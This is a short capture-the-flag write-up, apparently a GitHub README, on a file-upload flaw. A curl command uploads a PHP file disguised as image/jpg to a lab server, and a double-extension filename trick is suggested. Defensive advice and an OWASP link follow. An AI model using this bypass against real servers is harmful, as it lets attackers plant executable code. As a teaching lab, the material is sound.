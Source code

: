 ### CTF
```bash
    curl -v -F "Upload=Upload" -F "uploaded=@./test.php;type=image/jpg" http://172.20.10.4/\?page\=upload
```
Alternatively, upload a file in the likes of "test.jpg.jpg".

### How to protect yourself

#### Main solutions

To protect yourself you have to sanitize every files for the type you are waiting for. You can't just trust the user to fill the file with the wanted extansions.  
I don't want to take credit for the sanitizing solutions I found, you can find them [here](https://github.com/OWASP/CheatSheetSeries/blob/master/cheatsheets/Protect_FileUpload_Against_Malicious_File.md).

